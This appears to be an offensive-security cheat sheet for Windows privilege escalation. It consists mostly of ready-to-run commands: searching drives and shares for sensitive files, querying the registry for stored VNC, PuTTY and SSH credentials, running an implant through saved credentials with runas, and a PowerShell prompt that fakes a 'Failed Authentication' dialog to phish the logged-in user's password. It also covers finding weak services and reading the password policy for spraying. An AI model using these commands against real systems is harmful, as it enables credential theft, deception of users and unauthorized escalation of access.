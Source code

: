 # Windows Privilege Escalation Techniques

## Searching for sensitive filles

Start by searching for sensitive files on the local C drive. After that search any reachable network shares. [SharpShares](https://github.com/mitchmoser/SharpShares) can be used to search for open network shares.

```
dir /b /a /s c:\ > c-dirs.txt
```

```
SharpShares.exe /ldap:all /filter:sysvol,netlogon,ipc$,print$
```

Either extract the c-dirs.txt file onto your system and use your tool/text editor of choice to search for sensitive file. If you prefer to stay on the windows system and search through the file, use `type` and `findstr` to search for sensitive string.

```
type c-dirs.txt | findstr /i passw
```

## Registry Queries
Passwords for putty, vnc, and OpenSSH keys can be stored in the registry.

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\OpenSSH\Agent\Keys"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

```
Seatbelt.exe WindowsAutoLogon
Seatbelt.exe reg
```

## Credential Manager

Credentials stored in the windows credential manager can be abused to run commands or launch payloads as another users.

**List stored credentials**
```
cmdkey /list
```

**User a stored credential**
```
runas /savecred /user:admin implant.exe
```

```
Seatbelt.exe CredEnum
```

## Asking for Credentials

Only a viable attack path if there's a user logged into the system. This can also burn you if the user gets suspicious.

**Request password for current user, using environment variable for the user:**
```powershell
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

**Request password for current user, using hard-coded username (admin in this example):**
```powershell
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

## Unsecured Services

**Identify Unquoted Service Paths with WMIC:**
wmic can trigger alerts in some environments.
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
**Identify services Everyone, Users, and Authenticated users have write access on with [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)**

```
accesschk.exe -accepteula -wuvc "Everyone" *
```
```
accesschk.exe -accepteula -wuvc "Users" *
```
```
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```

## View Password Policy

Password spray attacks can sometimes lead to elevating privileges if you're lucky. Knowing the password policy can greatly increase your success rate and efficiency. For example, if you know the password length is set to 15, you won't waste time spraying 8 character lenght passwords. ALthough there are sometimes when an old service account which hasn't had a password change in 10 years is using a password that falls outside the curretn password complexity rules.

```
net accounts
```
